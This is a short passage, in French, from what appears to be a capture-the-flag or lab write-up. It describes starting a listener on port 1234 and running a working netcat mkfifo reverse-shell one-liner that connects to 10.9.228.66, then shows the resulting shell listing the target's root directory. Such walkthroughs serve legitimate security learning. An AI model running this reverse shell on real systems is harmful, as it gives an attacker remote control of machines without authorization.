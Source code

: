 On écoute le port 1234 pour avoir un shell.  

![page](./Task1-02.png)   
On exécute un reverse shell qui est ici : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.228.66 1234 >/tmp/f   

```
$ cd /
$ ls
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
proct
root
run
sbin
snap
srv
swap.img
sys
tmp
usr
var
vmlinuz
vmlinuz.old

```
